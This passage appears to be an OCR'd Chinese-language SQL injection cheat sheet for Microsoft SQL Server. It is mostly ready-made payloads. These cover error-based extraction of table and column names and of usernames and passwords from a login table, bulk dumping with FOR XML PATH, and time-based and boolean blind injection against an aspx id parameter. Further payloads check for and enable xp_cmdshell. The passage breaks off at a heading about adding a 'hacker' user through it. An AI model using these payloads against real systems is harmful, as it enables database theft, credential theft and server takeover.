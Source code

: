 and 1=convert(int,(select top 1 table\_name from information\_schema.tables ))—获取第一个表名

and 1=convert(int,(select top 1 table\_name from information\_schema.tables where table\_name not in('photoGalary') )) 获取第二个表名

and 1=convert(int,(select top 1 column\_name from information\_schema.columns where table\_name='login' ))— 获取第一个列名

and 1=convert(int,(select top 1 username from login ))

and 1=convert(int,(select top 1 password from login ))

### (2)全爆语句

爆表，要求sqlserver版本2005以上

and 1=(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--  
and 1=(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--

爆列

and 1=(select quotename(name) from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))--  
and 1=(select '|'%2bname%2b'|' from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))—

### 时间注入

aspx?id=1;if (select IS\_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5' –

如果是sa权限，就延时。

案例：

![](https://pic4.zhimg.com/v2-e02e107e66f247bb2de11406e19562cf_b.jpg)

判断内容

aspx?id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'--

### 布尔盲注

1.aspx?id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)) >= 109

### XP\_CMDSHELL检测

看下目标的xp\_cmdshell存储过程是否还在,主要是想看它有没有被删掉,你也可以用这种方式来查询其它你想知道的任何存储过程，如果判断还在，页面显示正常，不在的话页面报错。

and 1=(select count(\*) from master..sysobjects where xtype = 'x' and name = 'xp\_cmdshell') –

开启xpcmdshell一句话。前提 1、支持堆叠 2、扩展存储过程没被删除

EXEC sp\_configure 'show advanced options', 1;RECONFIGURE;EXEC sp\_configure 'xp\_cmdshell', 1;RECONFIGURE;

前提：sa权限探测是否存在1433端口。然后检测是否开启CMDSHELL

用XP\_CMDSHELL添加用户hacker：
